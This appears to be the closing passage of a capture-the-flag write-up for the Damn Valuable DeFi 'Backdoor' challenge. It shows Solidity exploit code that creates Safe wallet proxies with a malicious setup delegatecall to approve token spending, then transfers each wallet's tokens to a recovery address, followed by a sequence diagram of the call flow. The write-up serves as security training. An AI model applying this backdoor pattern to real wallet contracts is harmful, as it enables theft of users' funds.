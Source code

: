 ```solidity
                owner, // owner: alice
                1, // Threshold
                address(this), // to: Contract address for optional delegate call
                data, // data: Data payload for optional delegate call
                0, // Fallback handler
                0, // payment token
                0, // payment
                0  // payment receiver
            );

            // Create a proxy for each user
            proxies[i] = walletFactory.createProxyWithCallback(
                address(singletonCopy),
                initializer,
                i, // salt nonce
                IProxyCreationCallback(walletRegistry)
            );
        }

        token.transferFrom(address(proxies[0]), recovery, PAYMENT_AMOUNT);
        token.transferFrom(address(proxies[1]), recovery, PAYMENT_AMOUNT);
        token.transferFrom(address(proxies[2]), recovery, PAYMENT_AMOUNT);
        token.transferFrom(address(proxies[3]), recovery, PAYMENT_AMOUNT);
    }
}
```
#### Appendix
```mermaid
sequenceDiagram
    actor EOA
    participant Factory as SafeProxyFactory
    participant Proxy as SafeProxy (storage)
    participant Safe as Safe (logic)
    participant Exploiter as BackdoorExploiter
    participant Token as DamnValuableToken

    EOA ->> Factory: createProxyWithCallback(singleton, initializer, salt, callback)

    Factory ->> Proxy: create2(... SafeProxy.creationCode + singleton ...)
    Note over Factory,Proxy: SafeProxy deployed with singleton = Safe

    Factory ->> Proxy: call(initializer) ➜ setup()

    Proxy ->> Safe: delegatecall(initializer)
    Note over Proxy,Safe: Now inside Safe.setup() in Proxy context

    Safe ->> Safe: setupOwners(...)
    Safe ->> Safe: setupModules(to=Exploiter, data=delegateApprove)

    Safe ->> Exploiter: delegatecall(delegateApprove)
    Note over Safe,Exploiter: Still in Proxy context (msg.sender = Factory)

    Exploiter ->> Token: approve(spender, 10 ether)
    Note over Exploiter,Token: Token sees msg.sender == Proxy

    Token ->> Token: [if not plain ERC20, fallback()]
    Token ->> Safe: delegatecall (fallback ➜ Safe)
    Safe ->> Safe: fallback() → revert("GS000") ❌

    Note over Safe,Token: Revert if Token is a proxy with fallback

    Factory ->> callback: proxyCreated(...)
```